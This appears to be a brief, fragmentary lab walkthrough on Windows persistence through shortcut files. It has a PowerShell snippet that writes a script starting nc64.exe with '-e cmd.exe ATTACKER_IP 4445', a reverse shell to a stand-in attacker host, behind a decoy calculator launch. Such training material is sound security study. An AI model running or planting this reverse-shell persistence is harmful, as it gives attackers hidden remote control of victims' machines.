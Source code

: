 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![]()

![]()

3. `PowerShell`
```PowerShell
```
4. `$scriptPath = 'C:\Path\to\directory\script.ps1'
$scriptContent = @"
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\System32\calc.exe
"@
Set-Content -Path $scriptPath -Value $scriptContent
`

# Hijacking File Associations
